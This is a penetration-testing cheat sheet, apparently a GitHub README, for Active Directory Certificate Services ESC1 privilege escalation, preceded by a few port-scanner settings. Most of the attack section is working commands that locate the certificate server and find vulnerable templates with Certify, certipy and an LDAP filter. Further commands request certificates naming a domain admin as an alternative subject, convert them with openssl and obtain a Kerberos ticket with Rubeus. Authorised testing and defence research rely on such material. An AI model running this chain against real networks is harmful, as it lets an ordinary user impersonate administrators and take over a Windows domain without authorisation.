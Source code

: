 Change the preferences settings
Go to : Preferences -> Ports -> add 80,445,554,21 ,22 in the port selection
Go to : Preferences -> Display -> select Alive Hosts
Go to : Preferences -> Pinging -> select Combained (UDP/TCP)

Lateral Movement and Exploitation
Active Directory Certificate Services
This part was copied from https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#esc1---misconfigured-certificate-templates
For more details check : https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation

(Tested on private environment (Bloodhound then ESC1 exploit)

Find ADCS Server
crackmapexec ldap domain.lab -u username -p password -M adcs
ldapsearch -H ldap://dc_IP -x -LLL -D 'CN=<user>,OU=Users,DC=domain,DC=local' -w '<password>' -b "CN=Enrollment Services,CN=Public Key Services,CN=Services,CN=CONFIGURATION,DC=domain,DC=local" dNSHostName
Enumerate AD Enterprise CAs with certutil: certutil.exe -config - -ping, certutil -dump
ESC1 - Misconfigured Certificate Templates
Domain Users can enroll in the VulnTemplate template, which can be used for client authentication and has ENROLLEE_SUPPLIES_SUBJECT set. This allows anyone to enroll in this template and specify an arbitrary Subject Alternative Name (i.e. as a DA). Allows additional identities to be bound to a certificate beyond the Subject.

Requirements:

Template that allows for AD authentication
ENROLLEE_SUPPLIES_SUBJECT flag
[PKINIT] Client Authentication, Smart Card Logon, Any Purpose, or No EKU (Extended/Enhanced Key Usage)
Exploitation:

Use Certify.exe to see if there are any vulnerable templates
Certify.exe find /vulnerable
Certify.exe find /vulnerable /currentuser
# or
PS> Get-ADObject -LDAPFilter '(&(objectclass=pkicertificatetemplate)(!(mspki-enrollment-flag:1.2.840.113556.1.4.804:=2))(|(mspki-ra-signature=0)(!(mspki-ra-signature=*)))(|(pkiextendedkeyusage=1.3.6.1.4.1.311.20.2.2)(pkiextendedkeyusage=1.3.6.1.5.5.7.3.2) (pkiextendedkeyusage=1.3.6.1.5.2.3.4))(mspki-certificate-name-flag:1.2.840.113556.1.4.804:=1))' -SearchBase 'CN=Configuration,DC=lab,DC=local'
# or
certipy 'domain.local'/'user':'password'@'domaincontroller' find -bloodhound
Use Certify, Certi or Certipy to request a Certificate and add an alternative name (user to impersonate)
# request certificates for the machine account by executing Certify with the "/machine" argument from an elevated command prompt.
Certify.exe request /ca:dc.domain.local\domain-DC-CA /template:VulnTemplate /altname:domadmin
certi.py req 'contoso.local/Anakin@dc01.contoso.local' contoso-DC01-CA -k -n --alt-name han --template UserSAN
certipy req 'corp.local/john:Passw0rd!@ca.corp.local' -ca 'corp-CA' -template 'ESC1' -alt 'administrator@corp.local'
Use OpenSSL and convert the certificate, do not enter a password
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
Move the cert.pfx to the target machine filesystem and request a TGT for the altname user using Rubeus
Rubeus.exe asktgt /user:domadmin /certificate:C:\Temp\cert.pfx
